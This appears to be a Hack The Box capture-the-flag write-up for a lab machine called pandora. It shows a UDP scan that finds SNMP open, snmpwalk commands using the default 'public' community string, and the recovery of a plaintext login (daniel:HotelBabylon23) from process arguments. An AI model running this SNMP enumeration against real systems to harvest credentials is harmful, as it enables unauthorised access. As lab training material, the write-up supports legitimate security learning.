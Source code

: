 ```bash
UDP Scan Timing: About 58.48% done; ETC: 11:57 (0:06:56 remaining)
UDP Scan Timing: About 63.58% done; ETC: 11:57 (0:06:05 remaining)
Discovered open port 161/udp on 10.10.11.136
```

We got something in port **161** and according to [this](https://www.speedguide.net/port.php?port=161) it holds the `SNMP` service.

We can use `SNMPWalk` to collect SNMP information. SNMP (Simple Network Management Protocol) is a network monitoring protocol for seamless communication between multiple devices ona network, transmitting messages from the SNMP manager to the SNMP remote at each networking site (more [here](https://www.solarwinds.com/resources/it-glossary/snmp-walk)).

```bash
snmpwalk -c public -v2c 10.10.11.136
```

- `-c`: set the community string (default is public).
- `-v2c`: set version to 2c, which is the most common.

It takes ages so we use this instead:

```bash
snmpbulkwalk -c public -v2c 10.10.11.136 . > snmpwalk.1
```

We can clean the file up:

```bash
grep -oP '::.*?\."' snmpwalk.1 | sort | uniq -c | sort -n
```

Then we can do:

```bash
grep <something> snmpwalk.1 | less -S
grep hrSWRun snmpwalk.1 | less -S
```

We found this:

```bash
HOST-RESOURCES-MIB::hrSWRunParameters.823 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"

HOST-RESOURCES-MIB::hrSWRunParameters.1117 = STRING: "-u daniel -p HotelBabylon23"
```

It seems we a `daniel:HotelBabylon23` login:

```bash
~/htb/pandora > grep hrSWRun snmpwalk.1 |grep 823                                                                                                                                                                                      1m 12s
HOST-RESOURCES-MIB::hrSWRunIndex.823 = INTEGER: 823
HOST-RESOURCES-MIB::hrSWRunName.823 = STRING: "sh"
HOST-RESOURCES-MIB::hrSWRunID.823 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.823 = STRING: "/bin/sh"
HOST-RESOURCES-MIB::hrSWRunParameters.823 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
HOST-RESOURCES-MIB::hrSWRunType.823 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.823 = INTEGER: runnable(2)
HOST-RESOURCES-MIB::hrSWRunPerfCPU.823 = INTEGER: 0
HOST-RESOURCES-MIB::hrSWRunPerfMem.823 = INTEGER: 604 KBytes

~/htb/pandora > grep hrSWRun snmpwalk.1 |grep 1117
HOST-RESOURCES-MIB::hrSWRunIndex.1117 = INTEGER: 1117
HOST-RESOURCES-MIB::hrSWRunName.1117 = STRING: "host_check"
HOST-RESOURCES-MIB::hrSWRunID.1117 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.1117 = STRING: "/usr/bin/host_check"
HOST-RESOURCES-MIB::hrSWRunParameters.1117 = STRING: "-u daniel -p HotelBabylon23"
```